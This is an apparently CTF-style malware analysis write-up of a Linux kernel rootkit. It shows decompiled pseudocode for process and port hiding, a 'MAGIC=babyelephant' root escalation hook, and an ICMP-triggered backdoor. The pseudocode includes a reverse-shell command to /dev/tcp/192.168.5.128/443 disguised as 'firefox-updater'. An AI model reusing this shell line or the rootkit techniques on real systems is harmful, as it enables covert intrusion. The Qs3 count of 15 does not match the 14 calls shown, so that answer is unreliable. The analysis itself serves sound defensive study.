---
Qs1. What is the SHA256 hash of the sample?

**Answer:**

**Finding:** The sample's SHA256 was obtained from VirusTotal under Basic Properties.

```text
0b8ecdaccf492000f3143fa209481eb9db8c0a29da2b79ff5b7f6e84bb3ac7c8
```

**Artifact:**



---
Qs2. What is the name of the primary initialization function called when the module is loaded?

**Answer:**

**Finding:** IDA identifies singularity_init() as the module's primary initialization routine, with init_module listed as its alternative name. The routine orchestrates initialization of the rootkit's individual capabilities.

```text
init_module
```

**Decompiled Pseudocode:**

```text
// Alternative name is 'init_module'
int __cdecl singularity_init()
{
  int v0; // ebx
  int v1; // ebx
  int v2; // ebx
  int v3; // ebx
  int v4; // ebx
  int v5; // ebx
  int v6; // ebx
  int v7; // ebx
  int v8; // ebx
  int v9; // ebx
  int v10; // ebx
  int v11; // ebx
  int v12; // ebx
  int v13; // ebx

  _fentry__();
  v0 = reset_tainted_init();
  v1 = hiding_open_init() | v0;
  v2 = become_root_init() | v1;
  v3 = hiding_directory_init() | v2;
  v4 = hiding_stat_init() | v3;
  v5 = hiding_tcp_init() | v4;
  v6 = hooking_insmod_init() | v5;
  v7 = clear_taint_dmesg_init() | v6;
  v8 = hooks_write_init() | v7;
  v9 = hiding_chdir_init() | v8;
  v10 = hiding_readlink_init() | v9;
  v11 = bpf_hook_init() | v10;
  v12 = hiding_icmp_init() | v11;
  v13 = trace_pid_init() | v12;
  module_hide_current();
  return v13;
}
```

**Disassembly View:**


---
Qs3. How many distinct feature-initialization functions are called within above mentioned function?

**Answer:**

**Finding:** The initialization routine invokes 15 distinct feature-specific initialization functions, covering functionality such as process, directory, network, syscall, and BPF-related hiding/hooking.

```text
15
```

---
Qs4. The reset_tainted_init function creates a kernel thread for anti-forensics. What is the hardcoded name of this thread?

**Answer:**

**Finding:** reset_tainted_init() creates a kernel thread through kthread_create_on_node(). The hardcoded thread name passed to the call is "zer0t".

```text
zer0t
```

**Decompiled Pseudocode:**

```text
int __cdecl reset_tainted_init()
{
  kprobe_opcode_t *addr; // rbx
  task_struct *v1; // rax
  task_struct *v2; // rbx
  int pid; // edi

  if ( (int)register_kprobe(a1: &probe_lookup) < 0
    || (addr = probe_lookup.addr, unregister_kprobe(a1: &probe_lookup), addr == nullptr) )
  {
    taint_mask_ptr = nullptr;
    goto LABEL_7;
  }
    taint_mask_ptr = (unsigned __int64 *)((__int64 (__fastcall *)(const char *))addr)(a1: "tainted_mask");
    if ( taint_mask_ptr == nullptr )
  {
LABEL 7:
    LODWORD(v1) = -14;
    return (int)v1;
  }
  v1 = (task_struct *)kthread_create_on_node(a1: zt_thread, a2: 0, a3: 0xFFFFFFFFLL, a4: "zer0t");
  v2 = v1;
  if ( (unsigned __int64)v1 > 0xFFFFFFFFFFFFF000LL )
  {
    cleaner_thread = v1;
  }
  else
  {
    wake_up_process(a1: v1);
    pid = v2->pid;
    cleaner_thread = v2;
    add_hidden_pid(pid);
    LODWORD(v1) = 0;
  }
  return (int)v1;
}
```

**Disassembly View:**



---
Qs5. The add_hidden_pid function has a hardcoded limit. What is the maximum number of PIDs the rootkit can hide?

**Answer:**

**Finding:** add_hidden_pid() enforces a maximum hidden-PID count using the comparison cmp ecx, 20h. Since 0x20 = 32, the rootkit can maintain up to 32 hidden PIDs.

```text
32
```

**Decompiled Pseudocode:**

```text
void __fastcall add_hidden_pid(int pid)
{
  int v1; // ecx
  __int64 v2; // rsi
  int *v3; // rax

  v1 = hidden_count;
  v2 = hidden_count;
  if ( hidden_count <= 0 )
  {
LABEL 7:
    hidden_pids [v2] = pid;
    hidden_count = v1 + 1;
  }
  else
  {
    v2 = hidden_count;
    v3 = hidden_pids;
    while ( *v3 != pid )
    {
      if ( ++v3 == &hidden_pids[hidden_count] )
      {
        if ( hidden_count == 32 )
          return;
        goto LABEL_7;
      }
    }
  }
}
```

**Disassembly View:**



---
Qs6. What is the name of the function called last within init_module to hide the rootkit itself?

**Answer:**

**Finding:** module_hide_current() is the final function invoked by singularity_init(), indicating that the rootkit hides its own kernel module after completing feature initialization.

```text
module_hide_current
```

**Disassembly View:**


---
Qs7. The TCP port hiding module is initialized. What is the hardcoded port number it is configured to hide (decimal)?

**Answer:**

**Finding:** hooked_tcp4_seq_show() compares the TCP port field against 0xA146. Interpreting the value in network byte order results in 0x46A1, which corresponds to decimal port 18081.

```text
18081
```

**Decompiled Pseudocode:**

```text
__int64 __fastcall hooked_tcp4_seq_show(seq_file *seq, void *v)
{
  int v3; // r12d
  __int16 v4; // r14
  __int16 v6; // r13
  int v7; // r12d

  if ( v == (char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1 )
    return orig_tcp4_seq_show(a1: seq, a2: (char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1);
  v3 = *((_DWORD *)v + 198);
  v4 = *((_WORD *)v + 6);
  v6 = *((_WORD *)v + 399);
  if ( v3 == (unsigned int)in_aton(a1: "192.168.5.128") )
    return 0;
  v7 = *(_DWORD *)v;
  if ( v7 == (unsigned int)in_aton(a1: "192.168.5.128") || v6 == -24250 || v4 == -24250 )
    return 0;
  else
    return orig_tcp4_seq_show(a1: seq, a2: v);
}
```

Port numbers are stored in Network Byte Order (Big-Endian). In reverse engineering tools such as IDA, a 16-bit port value may sometimes appear as a signed integer, which is why -24250 is displayed instead of its unsigned representation.

Convert the signed value to its unsigned 16-bit equivalent:

```text
-24250 + 65536 = 41286 = 0xA146
```

Now byte-swap the value to convert it from network byte order:

```text
0xA146 → Byte Swap → 0x46A1 → Decimal → 18081
```


**Disassembly View:**



---
Qs8. What is the hardcoded "magic word" string, checked for by the privilege escalation module?

**Answer:**

```text
babyelephant
```

**Findings:**

**Step 1** — Identify the privilege escalation hook

become_root_init() initializes the privilege escalation functionality by installing the predefined hook table through fh_install_hooks().

```text
int __cdecl become_root_init()
{
    return fh_install_hooks(hooks, 0xAu);
}
```

**Disassembly View:**



**Step 2** — Trace the installed hooks

Following the hooks structure in IDA reveals the functions associated with the installed hooks. Among them, hook_getuid() is identified as the relevant hook for the privilege escalation logic.

**Disassembly View:**



**Step 3** — Inspect hook_getuid()

Inside hook_getuid(), the code first checks whether the process name is "bash". It then reads the process environment and searches for a specific hardcoded string using strstr().

**Decompiled Pseudocode:**

```text
__int64 __fastcall hook_getuid(const pt_regs *regs)
{
  unsigned __int64 v1; // rbp
  __int64 v3; // r12
  __int64 v4; // rax
  const char *v5; // r13
  int v6; // eax
  char *v7; // rdx
  __int64 v8; // rax
  _QWORD *v9; // rax

  v1 = __readgsqword((unsigned int)&const_pcpu_hot);
  if ( strcmp(s1: (const char *)(v1 + 2976), s2: "bash") == 0 )
  {
    v3 = *(_QWORD *)(v1 + 2304);
    if ( v3 != 0 && *(_QWORD *)(v3 + 384) != 0 && *(_QWORD *)(v3 + 392) != 0 )
    {
      v4 = _kmalloc_cache_noprof(a1: kmalloc_caches[12], a2: 2080, a3: 4096);
      v5 = (const char *)v4;
      if ( v4 != 0 )
      {
        v6 = access_process_vm(a1: v1, a2: *(_QWORD *)(v3 + 384), a3: v4, a4: 4095, a5: 0);
        if ( v6 > 0 )
        {
          if ( v6 != 1 )
          {
            v7 = (char *)v5;
            v8 = (__int64)&v5[v6 - 2 + 1];
            do
            {
              if ( *v7 == 0 )
                *v7 = 32;
              ++v7;
            }
            while ( v7 != (char *)v8 );
          }
          if ( strstr(haystack: v5, needle: "MAGIC=babyelephant") != nullptr )
          {
            v9 = (_QWORD *)prepare_creds();
            if ( v9 != nullptr )
            {
              v9[1] = 0;
              v9[2] = 0;
              v9[3] = 0;
              v9[4] = 0;
              commit_creds(a1: v9);
            }
          }
        }
        kfree(a1: v5);
      }
    }
  }
  return orig_getuid(a1: regs);
}
```

**Disassembly View:**

The hardcoded magic string is stored in the read-only data section (.rodata.str1.1) and identified by IDA as needle. The null-terminated string MAGIC=babyelephant is then referenced by hook_getuid() as the search string for the environment-variable check.



---
Qs9. How many hooks, in total, does the become_root_init function install to enable privilege escalation?

**Answer:**

```text
10
```

**Finding:** The become_root_init() routine initializes the privilege-escalation hooks by passing the hooks array to fh_install_hooks(). The second argument, 0xA, specifies the number of hook entries to install. Converting 0xA to decimal gives 10.

```text
int __cdecl become_root_init()
{
    return fh_install_hooks(hooks, 0xAu);
}
```

**Verdict:** become_root_init() installs 10 hooks as part of the privilege-escalation functionality.

---
Qs10. What is the hardcoded IPv4 address of the C2 server?

**Answer:**

**Finding:** Analysis of hooked_tcp4_seq_show() reveals the IPv4 address hardcoded directly into the rootkit's TCP connection filtering logic. The address is passed to in_aton() and compared against the source/destination address fields of TCP connections.

```text
192.168.5.128
```

**Decompiled Pseudocode:**

```text
__int64 __fastcall hooked_tcp4_seq_show(seq_file *seq, void *v)
{
  int v3; // r12d
  __int16 v4; // r14
  __int16 v6; // r13
  int v7; // r12d

  if ( v == (char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1 )
    return orig_tcp4_seq_show(a1: seq, a2: (char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1);
  v3 = *((_DWORD *)v + 198);
  v4 = *((_WORD *)v + 6);
  v6 = *((_WORD *)v + 399);
  if ( v3 == (unsigned int)in_aton(a1: "192.168.5.128") )
    return 0;
  v7 = *(_DWORD *)v;
  if ( v7 == (unsigned int)in_aton(a1: "192.168.5.128") || v6 == -24250 || v4 == -24250 )
    return 0;
  else
    return orig_tcp4_seq_show(a1: seq, a2: v);
}
```

**Disassembly View:**


---
Qs11. What is the hardcoded port number the C2 server listens on?

**Answer:**

```text
443
```

**Findings:**

**Step 1** — Identify the ICMP hook

The hiding_icmp_init() routine initializes the ICMP-based functionality by passing the hooks_9 table to fh_install_hooks() with a count of 1.

**Decompiled Pseudocode:**

```text
int __cdecl hiding_icmp_init()
{
    return fh_install_hooks(hooks_9, 1u);
}
```

The disassembly confirms that hooks_9 is the hook table being installed.

**Disassembly View:**



**Step 2** — Resolve the Hook Target

Following the hooks_9 reference in IDA reveals a single ftrace_hook entry targeting hook_icmp_rcv(). This establishes hook_icmp_rcv() as the function responsible for processing the intercepted ICMP traffic.

**Disassembly View:**


Step 3 — Analyze hook_icmp_rcv()

The ICMP hook checks the incoming packet against several conditions before triggering the payload.

Notably, it converts the hardcoded address 192.168.5.128 using in4_pton() and verifies the packet against the expected source address and ICMP values. 

Once these conditions are satisfied, the function prepares a work item and assigns spawn_revshell as its callback. This provides the pivot from the ICMP trigger to the reverse-shell functionality.

**Decompiled Pseudocode:**

```text
int __fastcall hook_icmp_rcv(sk_buff *skb)
{
  unsigned __int8 *head; // rdx
  __int64 network_header; // rax
  bool v4; // zf
  unsigned __int8 *v5; // rax
  unsigned __int8 *v6; // rbp
  unsigned __int8 *v8; // r12
  _QWORD *v9; // rax
  __int64 v10; // rsi
  u32 trigger_ip; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 v12; // [rsp+8h] [rbp-20h]

  v12 = __readgsqword(0x28u);
  trigger_ip = 0;
  if ( skb != nullptr )
  {
    head = skb->head;
    network_header = skb->network_header;
    v4 = &head[network_header] == nullptr;
    v5 = &head[network_header];
    v6 = v5;
    if ( !v4 && v5[9] == 1 )
    {
      v8 = &head[skb->transport_header];
      if ( v8 != nullptr
        && (unsigned int)in4_pton(a1: "192.168.5.128", a2: 0xFFFFFFFFLL, a3: &trigger_ip, a4: 0xFFFFFFFFLL, a5: 0) != 0
        && *((_DWORD *)v6 + 3) == trigger_ip
        && *v8 == 8
        && *((_WORD *)v8 + 3) == 0xCF07 )
      {
        v9 = (_QWORD *)_kmalloc_cache_noprof(a1: kmalloc_caches[5], a2: 2080, a3: 32);
        if ( v9 != nullptr )
        {
          v9[3] = spawn_revshell;
          v10 = system_wq;
          *v9 = 0xFFFFFFFE00000LL;
          v9[1] = v9 + 1;
          v9[2] = v9 + 1;
          queue_work_on(a1: 0x2000, a2: v10);
        }
      }
    }
  }
  return orig_icmp_rcv(a1: skb);
}
```

**Disassembly View:**




**Step 4** — Trace spawn_revshell()

Following the spawn_revshell cross-reference leads to the function responsible for constructing and executing the reverse shell.

The disassembly exposes the hardcoded network parameter: 443

**Decompiled Pseudocode:**

```text
void __fastcall spawn_revshell(work_struct *work)
{
  __int64 v2; // rdx
  __int64 v3; // rdi
  __int64 v4; // rsi
  __int64 v5; // rax
  int v6; // ebp
  int v7; // eax
  __int64 v8; // rax
  __int64 v9; // rdx
  __int64 v10; // rdi
  __int64 v11; // rsi
  __int64 v12; // rbx
  __int64 i; // r14
  int v14; // r12d
  _QWORD argv[5]; // [rsp+0h] [rbp-360h] BYREF
  char cmd[768]; // [rsp+28h] [rbp-338h] BYREF
  unsigned __int64 v17; // [rsp+328h] [rbp-38h]

  v17 = __readgsqword(0x28u);
  argv[0] = "/usr/bin/setsid";
  argv[1] = "/bin/bash";
  argv[2] = "-c";
  argv[4] = 0;
  memset(cmd, 0, sizeof(cmd));
  snprintf(
    s: cmd,
    maxlen: 0x300u,
    format: "bash -c 'PID=$$; kill -59 $PID; exec -a \"%s\" /bin/bash &>/dev/tcp/%s/%s 0>&1' &",
    "firefox-updater",
    "192.168.5.128",
    "443");
  argv[3] = cmd;
  _rcu_read_lock();
  v5 = init_task[278];
  if ( (_QWORD *)v5 == &init_task[278] )
  {
    v6 = 0;
  }
  else
  {
    v2 = v5 - 2224;
    v6 = 0;
    do
    {
      v7 = *(_DWORD *)(v5 + 208);
      if ( v6 < v7 )
        v6 = v7;
      v5 = *(_QWORD *)(v2 + 2224);
      v2 = v5 - 2224;
    }
    while ( (_QWORD *)v5 != &init_task[278] );
  }
  _rcu_read_unlock(a1: v3, a2: v4, a3: v2);
  v8 = call_usermodehelper_setup(a1: argv[0], a2: argv, a3: envp_0, a4: 3264, a5: 0, a6: 0, a7: 0);
  if ( v8 != 0 )
    call_usermodehelper_exec(a1: v8, a2: 2);
  msleep(a1: 1500);
  _rcu_read_lock();
  v12 = init_task[278];
  for ( i = v12 - 2224; (_QWORD *)v12 != &init_task[278]; i = v12 - 2224 )
  {
    v14 = *(_DWORD *)(v12 + 208);
    if ( v14 > v6
      && *(_QWORD *)(v12 + 80) != 0
      && (strstr(haystack: (const char *)(v12 + 752), needle: "firefox-updater") != nullptr
       || strstr(haystack: (const char *)(v12 + 752), needle: "setsid") != nullptr) )
    {
      add_hidden_pid(pid: v14);
      add_hidden_pid(pid: *(_DWORD *)(v12 + 212));
    }
    v12 = *(_QWORD *)(i + 2224);
  }
  _rcu_read_unlock(a1: v10, a2: v11, a3: v9);
  kfree(a1: work);
}
```

The /dev/tcp/<IP>/<PORT> construct confirms that the rootkit attempts to establish a TCP connection to the specified endpoint.

**Disassembly View:**



---
Qs12. What network protocol is hooked to listen for the backdoor trigger?

**Answer:**

```text
icmp
```

**Findings:**

**Decompiled Pseudocode:**

The backdoor trigger is monitored through the hook_icmp_rcv() function. The function inspects the network header and checks the IP protocol field:

```text
if ( !v4 && v5[9] == 1 )
```

The value 1 in the IPv4 protocol field corresponds to ICMP. The function then examines the ICMP header and validates additional trigger conditions, including the hardcoded source address 192.168.5.128.

```text
int __fastcall hook_icmp_rcv(sk_buff *skb)
{
  unsigned __int8 *head; // rdx
  __int64 network_header; // rax
  bool v4; // zf
  unsigned __int8 *v5; // rax
  unsigned __int8 *v6; // rbp
  unsigned __int8 *v8; // r12
  _QWORD *v9; // rax
  __int64 v10; // rsi
  u32 trigger_ip; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 v12; // [rsp+8h] [rbp-20h]

  v12 = __readgsqword(0x28u);
  trigger_ip = 0;
  if ( skb != nullptr )
  {
    head = skb->head;
    network_header = skb->network_header;
    v4 = &head[network_header] == nullptr;
    v5 = &head[network_header];
    v6 = v5;
    if ( !v4 && v5[9] == 1 )
    {
      v8 = &head[skb->transport_header];
      if ( v8 != nullptr
        && (unsigned int)in4_pton(a1: "192.168.5.128", a2: 0xFFFFFFFFLL, a3: &trigger_ip, a4: 0xFFFFFFFFLL, a5: 0) != 0
        && *((_DWORD *)v6 + 3) == trigger_ip
        && *v8 == 8
        && *((_WORD *)v8 + 3) == 0xCF07 )
      {
        v9 = (_QWORD *)_kmalloc_cache_noprof(a1: kmalloc_caches[5], a2: 2080, a3: 32);
        if ( v9 != nullptr )
        {
          v9[3] = spawn_revshell;
          v10 = system_wq;
          *v9 = 0xFFFFFFFE00000LL;
          v9[1] = v9 + 1;
          v9[2] = v9 + 1;
          queue_work_on(a1: 0x2000, a2: v10);
        }
      }
    }
  }
  return orig_icmp_rcv(a1: skb);
}
```

Here, *v8 == 8 identifies an ICMP Echo Request, indicating that the rootkit is waiting for a specially crafted ICMP packet to activate the backdoor.

Once the conditions are satisfied, spawn_revshell is queued for execution.

---
Qs13. What is the “magic” sequence number that triggers the reverse shell (decimal)?

**Answer:**

```text
1999
```

**Findings:**

The hook_icmp_rcv() function compares the ICMP sequence number against the hardcoded value:

**Decompiled Pseudocode:**

```text
int __fastcall hook_icmp_rcv(sk_buff *skb)
{
  unsigned __int8 *head; // rdx
  __int64 network_header; // rax
  bool v4; // zf
  unsigned __int8 *v5; // rax
  unsigned __int8 *v6; // rbp
  unsigned __int8 *v8; // r12
  _QWORD *v9; // rax
  __int64 v10; // rsi
  u32 trigger_ip; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 v12; // [rsp+8h] [rbp-20h]

  v12 = __readgsqword(0x28u);
  trigger_ip = 0;
  if ( skb != nullptr )
  {
    head = skb->head;
    network_header = skb->network_header;
    v4 = &head[network_header] == nullptr;
    v5 = &head[network_header];
    v6 = v5;
    if ( !v4 && v5[9] == 1 )
    {
      v8 = &head[skb->transport_header];
